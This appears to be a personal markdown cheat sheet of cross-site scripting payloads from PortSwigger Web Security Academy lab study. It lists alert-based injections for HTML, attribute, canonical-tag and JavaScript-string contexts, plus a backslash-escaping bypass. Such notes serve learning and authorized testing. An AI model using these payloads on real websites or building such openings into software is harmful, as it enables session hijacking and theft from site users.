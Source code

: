 [[XSS]]
# Between HTML tags
```html
<script>alert(document.domain)</script>
<img src=1 onerror=alert(1)>
```

# XSS in HTML tag attributes
```html
"><script>alert(document.domain)</script>
```

```html
" autofocus onfocus=alert(document.domain) x="
```

```html
<a href="javascript:alert(document.domain)">
```
##### Using `accesskey` to invoke some JS code placed in a attribute of `canonical` tag.
Final payload:
```
https://YOUR-LAB-ID.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)
```
How it looks in DOM:
```html
<link rel="canonical" href="https://0ace00fb0457e86f80a1210c00d900da.web-security-academy.net/?" accesskey="x" onclick="alert(1)">
```

# XSS into JavaScript
##### Terminating the existing script
```js
<script>
...
var input = 'controllable data here';
...
</script>
```
Payload:
```html
</script><img src=1 onerror=alert(document.domain)>
```

##### Breaking out of a JavaScript string
```javascript
'-alert(document.domain)-'
';alert(document.domain)//
```

##### Bypass escaping single quotes with a backslash
For example, suppose that the input:
`';alert(document.domain)//`

gets converted to:
`\';alert(document.domain)//`

You can now use the alternative payload:
`\';alert(document.domain)//`

which gets converted to:
`\\';alert(document.domain)//`

##### WAF blocks some characters
https://portswigger.net/web-security/cross-site-scripting/contexts - #to-be-continued 
https://portswigger.net/research/xss-without-parentheses-and-semi-colons